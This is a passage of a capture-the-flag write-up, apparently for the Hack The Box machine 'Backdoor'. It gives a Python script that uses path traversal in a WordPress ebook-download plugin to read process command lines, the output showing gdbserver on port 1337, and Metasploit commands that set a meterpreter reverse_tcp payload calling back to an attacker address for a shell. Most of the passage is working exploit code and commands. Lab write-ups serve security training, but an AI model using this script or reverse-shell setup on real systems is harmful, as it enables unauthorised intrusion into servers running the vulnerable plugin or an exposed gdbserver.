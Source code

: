 **Check Services**

*   Exploit.py

    ```py
    import requests

    url = 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl='
    pl = []
    start = 900 # The service was on 956 for me, if you didn't found the service try changing the start point
    for i in range(start,1010):  
        pl.append(f'{url}../../../../../../../../../../../../../../../proc/{i}/cmdline')

    for i in pl:
        r = requests.get(i)
        check = r.text
        if '1337' in check:
            print(check)
            print('SERVICE SUCCESSFULLY FOUND')
            break
        else:
            print(f'trying on /proc/{start}/cmdline')
            start+=1
    ```
* Output.txt

```bash
../../../../../../../../../../../../../../../proc/956/cmdline
../../../../../../../../../../../../../../../proc/956/cmdline
../../../../../../../../../../../../../../../proc/956/cmdline

/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done

<script>window.close()</script>

```

* So the `port 1337` is running a `gdbserver`

![image](https://user-images.githubusercontent.com/56447720/142758972-3707c8b8-2ef8-4433-9b71-8044675135e3.png)

* Link : https://www.rapid7.com/db/modules/exploit/multi/gdb/gdb\_server\_exec/

## User Shell

* Use this `msf exploit` to get the user shell : `use exploit/multi/gdb/gdb_server_exec`

```bash
msf6 exploit(multi/gdb/gdb_server_exec) > set lhost 10.10.14.76
lhost => 10.10.14.76
msf6 exploit(multi/gdb/gdb_server_exec) > set rhosts <IP OF THE MACHINE>

msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
target => 1
msf6 exploit(multi/gdb/gdb_server_exec) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set rport 1337
rport => 1337

```
